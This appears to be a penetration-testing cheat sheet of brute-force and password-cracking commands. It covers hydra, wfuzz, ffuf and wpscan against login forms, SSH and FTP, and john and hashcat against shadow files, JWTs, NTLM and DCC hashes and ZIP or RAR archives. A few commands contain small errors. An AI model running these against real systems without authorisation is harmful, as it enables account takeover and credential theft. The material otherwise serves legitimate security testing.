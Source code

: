 ```yaml
---
title: 3 – Brute Force
summary: "Gaining Access step – a note for brute forcing passwords, login pages, archives, ..."
description: "Gaining Access step – a note for brute forcing passwords, login pages, archives, ..."
---
```


# Words Lists :

---

* <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>
* <font color=lightblue>/usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt</font>
* <font color=lightblue>/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt</font>
* <font color=lightblue>/usr/share/wordlists/metasploit/unix_passwords.txt</font>

# HTTP POST Login Page

---

### WFUZZ


 > 
 > **<font color=red>wfuzz -c -z file,</font>myWordList -u http://\[TARGET_IP\]:\[TARGET_PORT\]/login.php -d “username=<font color=red>FUZZ</font>&password=<font color=red>FUZZ</font>”</br>**
 > Fuzz Login.

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -L</font> myUsersFile.txt  <font color=red>-P</font> /usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>http-post-form ‘</font>/path/to/form.php<font color=red>:</font>username<font color=red>=^USER^&</font>password<font color=red>=^PASS^&</font>login=Login:<font color=red>F=</font>ChainNotOK<font color=red>’</font>**</br>
 > Brute Force HTTP POST form with valid username.

---

### FUFF

WPSCAN> **<font color=red>ffuf -w </font>myUsersFile.txt<font color=red>:W1,</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font><font color=red>:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u</font> http://\[TARGET_IP\]/login <font color=red>-fc 200</font>**</br>

 > 
 > Brute Force HTTP POST form with valid username.

---

### WPSCAN (WordPress)


 > 
 > **<font color=red>wpscan --url </font>http://\[TARGET_IP\]/blog <font color=red>--usernames</font> admin <font color=red>--passwords</font> <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Brute force WordPress user's credentials.

# HTTP Basic Access Auth

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P</font> /usr/share/wordlists/rockyou.txt \[TARGET_IP\]<font color=red>http-get</font> /path/**</br>
 > Brute Force HTTP Basic Access Authentication.

# SSH

---

### HYDRA


 > 
 > **<font color=red>hydra -L</font> myUsersFile <font color=red>-P</font> myPassFile \[TARGET_IP\]<font color=red>ssh</font>**</br>
 > Brute Force SSH.

# SSH Private Key Passphrase

---

### JOHN


 > 
 > **<font color=red>/usr/share/john/ssh2john.py</font> private_key <font color=red>\></font> forjohn.txt**</br>
 > Prepare private key for John.
 > 
 > **<font color=red>john --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> forjohn.txt**</br>
 > Crack private key passphrase.

# FTP

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P </font>/usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>ftp</font>**</br>
 > Brute Force FTP Login.

# Linux Unshadow

---

### JOHN


 > 
 > **<font color=red>unshadow /etc/passwd /etc/shadow ></font> unshadowd.txt**</br>
 > Prepare passwd and shadow file for John.
 > 
 > **<font color=red>john unshadow.txt --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack user passwords.
 > 
 > **<font color=red>john --show</font> unshadow.txt**</br> 
 > Display cracked passwords.

# JWT

---

### JOHN


 > 
 > **<font color=red>john --format=HMAC-SHA512</font> jwt.txt <font color=red>--show</font>**</br>
 > Crack JWT secret.

### JWT-CRACKER


 > 
 > **<font color=red>jwt-cracker </font> \[myToken\] \[myAlphabet\] \[myMaxSecretLengthExpected\]**</br>
 > Crack JWT token password.

Default Alphabet : abcdefghijklmnopqrstuvwxyz

# MD5

---

### JOHN


 > 
 > **<font color=red>john --format=md5crypt --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> hash.txt**</br>
 > Crack MD5 hash.

# NTLM

---

### JOHN


 > 
 > **<font color=red>john --format=NT -w=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> hash.txt <font color=red>--pot=</font>output.txt**</br>
 > Crack NTLM Hash.

# DCC

---

### HASHCAT


 > 
 > **<font color=red>hashcat -a 0 -m 1100 0 '</font>15a57c379ebdfea572ad1ff91eb6ef0c:Administrator<font color=red>'</font> <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack DCC (Domain Cached Credentials) hash.

# ZIP

---

### JOHN


 > 
 > **<font color=red>zip2john</font> myFile.zip <font color=red>\></font> forjohn.txt**</br>
 > Prepare ZIP archive for John.

 > 
 > **<font color=red>john</font> forjohn.txt**</br>
 > Crack ZIP archive password.

---

### HASHCAT


 > 
 > **<font color=red>zip2john</font> myFile.zip <font color=red>\></font> forhashcat.txt**</br>
 > Remove name of the file and archive from the hash (at the beginning and the end).

 > 
 > **<font color=red>hashcat -a -m 13600</font> forhashcat.txt <font color=lightblue>/usr/share/wordslist/rockyou.txt</font>**</br>
 > Crack ZIP archive password.

---

### FCRACKZIP


 > 
 > **<font color=red>fcrackzip -v -D -p</font> <font color=lightblue>/usr/share/wordlists/rockyou.txt</font> <font color=red>-u </font>myZipFile.zip**</br>
 > Crack ZIP archive password.

# RAR

---

## JOHN


 > 
 > **<font color=red>rar2john</font> myFile.rar <font color=red>\></font> forjohn.txt**</br>
 > Prepare RAR archive for John.
 > 
 > **<font color=red>john</font> forjohn.txt**</br>
 > Crack RAR archive password.
